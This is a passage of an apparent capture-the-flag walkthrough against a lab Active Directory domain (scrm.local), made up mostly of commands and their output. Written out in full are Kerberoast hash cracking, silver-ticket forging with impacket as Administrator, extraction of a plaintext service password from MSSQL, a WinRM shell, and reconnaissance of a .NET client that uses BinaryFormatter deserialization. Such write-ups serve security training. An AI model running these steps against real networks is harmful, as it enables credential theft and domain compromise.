18b883032f0f2fca72c79
```

`john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ./krb5tgs_sqlsvc_hash.txt`:
```
Created directory: /home/nabla/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60🔑        (?)     
1g 0:00:00:08 DONE (2025-01-10 08:33) 0.1138g/s 1222Kp/s 1222Kc/s 1222KC/s Peguero..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`echo -n 'Pegasus60' | iconv -t utf16le | openssl dgst -md4 | awk '{print $2}' | awk '{print toupper($s0)}'`:
```
B999A16500B87D17EC7F2E2A68778F05
```

`impacket-ticketer -nthash 'B999A16500B87D17EC7F2E2A68778F05' -domain-sid 'S-1-5-21-2743207045-1827831105-2542523200' -domain 'scrm.local' -dc-ip 10.10.11.168 -spn 'MSSQLSvc/dc1.scrm.local' 'Administrator'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

`klist`:
```
klist: No credentials cache found (filename: /tmp/krb5cc_1000)
```

`export KRB5CCNAME=/home/nabla/Administrator.ccache`

`klist`:
```
Ticket cache: FILE:/home/nabla/Administrator.ccache
Default principal: Administrator@SCRM.LOCAL📌

Valid starting     Expires            Service principal
01/10/25 08:55:08  01/08/35 08:55:08  MSSQLSvc/dc1.scrm.local@SCRM.LOCAL
        renew until 01/08/35 08:55:08
```

`impacket-mssqlclient 'DC1.scrm.local' -k`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
```
```
SQL (SCRM\administrator  dbo@master)> SELECT name FROM master.sys.databases;
name         
----------   
master       

tempdb       

model        

msdb         

ScrambleHR🔍

SQL (SCRM\administrator  dbo@master)> SELECT TABLE_NAME FROM ScrambleHR.INFORMATION_SCHEMA.TABLES;
TABLE_NAME   
----------   
Employees    

UserImport   

Timesheets   

SQL (SCRM\administrator  dbo@master)> SELECT * FROM ScrambleHR.dbo.UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900🔑 scrm.local                90               0 
```

`sudo rm /etc/krb5.conf`

`sudo vim /etc/krb5.conf`:
```
[libdefaults]
    default_realm = SCRM.LOCAL
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    SCRM.LOCAL = {
        kdc = DC1.scrm.local
    }

[domain_realm]
    .scrm.local = SCRM.LOCAL
    scrm.local = SCRM.LOCAL
```

`kdestroy`

`echo 'ScrambledEggs9900' | kinit MiscSvc`:
```
Password for MiscSvc@SCRM.LOCAL: 
```

`klist`:
```
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: MiscSvc@SCRM.LOCAL

Valid starting     Expires            Service principal
01/10/25 09:14:34  01/10/25 19:14:34  krbtgt/SCRM.LOCAL@SCRM.LOCAL
        renew until 01/11/25 09:14:33
```

`evil-winrm -i 'DC1.scrm.local' -u 'MiscSvc' -r 'scrm.local'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miscsvc\Documents>
```
🐚


`whoami`:
```
scrm\miscsvc
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name    SID
============ ==============================================
scrm\miscsvc S-1-5-21-2743207045-1827831105-2542523200-1617


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
SCRM\ITShare🔍                              Group            S-1-5-21-2743207045-1827831105-2542523200-1609 Mandatory group, Enabled by default, Enabled group
SCRM\ITUsers                                Group            S-1-5-21-2743207045-1827831105-2542523200-1610 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\\Users\miscsvc\Desktop`:
```
    Directory: C:\Users\miscsvc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/9/2025   4:28 PM             34 user.txt
```

`type C:\\Users\miscsvc\Desktop\user.txt`:
```
fa20f***************************🚩
```

`dir C:\\Users\`:
```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/5/2021   9:28 PM                administrator
d-----        11/3/2021   7:31 PM                miscsvc
d-r---        1/26/2020   5:54 PM                Public
d-----         6/1/2022   2:58 PM                sqlsvc
```


`impacket-smbclient -k 'scrm.local/MiscSvc:ScrambledEggs9900@DC1.scrm.local'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use IT
# ls
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 .
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 ..
drw-rw-rw-          0  Wed Nov  3 17:06:32 2021 Apps
drw-rw-rw-          0  Wed Nov  3 15:32:44 2021 Logs
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 Reports
```
```
# cd Apps
# ls
drw-rw-rw-          0  Wed Nov  3 17:06:32 2021 .
drw-rw-rw-          0  Wed Nov  3 17:06:32 2021 ..
drw-rw-rw-          0  Fri Nov  5 16:57:08 2021 Sales Order Client
# cd Sales Order Client
# ls
drw-rw-rw-          0  Fri Nov  5 16:57:08 2021 .
drw-rw-rw-          0  Fri Nov  5 16:57:08 2021 ..
-rw-rw-rw-      86528  Fri Nov  5 16:57:08 2021 ScrambleClient.exe
-rw-rw-rw-      19456  Fri Nov  5 16:57:08 2021 ScrambleLib.dll
# mget *
[*] Downloading ScrambleClient.exe
[*] Downloading ScrambleLib.dll
```

`file ./Scramble*`:
```
ScrambleClient.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
ScrambleLib.dll:    PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

`nc 10.10.11.168 4411`:
```
SCRAMBLECORP_ORDERS_V1.0.3;
TEST
ERROR_UNKNOWN_COMMAND;
```




















`cat ./ScrambleDebugLog.txt`:
```
10/01/2025 17:12:05	Developer logon bypass used
10/01/2025 17:12:05	Getting order list from server
10/01/2025 17:12:05	Getting orders from server
10/01/2025 17:12:05	Connecting to server
10/01/2025 17:12:06	Received from server: SCRAMBLECORP_ORDERS_V1.0.3;
10/01/2025 17:12:06	Parsing server response
10/01/2025 17:12:06	Response type = Banner
10/01/2025 17:12:06	Sending data to server: LIST_ORDERS;
10/01/2025 17:12:06	Getting response from server
10/01/2025 17:12:06	Received from server: SUCCESS;AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzYwMQYEAAAAC1NDUk1RVTkxODcyBgUAAAAGSiBIYWxsCQYAAAAAQBHK4mnaCAAAAAAAIHJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==|AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzc0OQYEAAAAC1NDUk1RVTkyMjEwBgUAAAAJUyBKZW5raW5zCQYAAAAAAJ07rZbaCAAAAAAAUJJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==
10/01/2025 17:12:06	Parsing server response
10/01/2025 17:12:06	Response type = Success
10/01/2025 17:12:06	Splitting and parsing sales orders
10/01/2025 17:12:06	Found 2 sales orders in server response
10/01/2025 17:12:06	Deserializing single sales order from base64: AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzYwMQYEAAAAC1NDUk1RVTkxODcyBgUAAAAGSiBIYWxsCQYAAAAAQBHK4mnaCAAAAAAAIHJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==
10/01/2025 17:12:06	Binary formatter init successful
10/01/2025 17:12:06	Deserialization successful
10/01/2025 17:12:06	Deserializing single sales order from base64: AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzc0OQYEAAAAC1NDUk1RVTkyMjEwBgUAAAAJUyBKZW5raW5zCQYAAAAAAJ07rZbaCAAAAAAAUJJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==
10/01/2025 17:12:06	Binary formatter init successful📌
10/01/2025 17:12:06	Deserialization successful
10/01/2025 17:12:06	Finished deserializing all sales orders
10/01/2025 17:12:21	Uploading new order with reference TEST🔍
10/01/2025 17:12:21	Binary formatter init successful🔍
10/01/2025 17:12:21	Order serialized to base64: AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAEVEVTVAYEAAAABFRFU1QGBQAAAAZKIEhhbGwJBgAAAAAA6bkJMd0IAAAAAICHw0AEBgAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0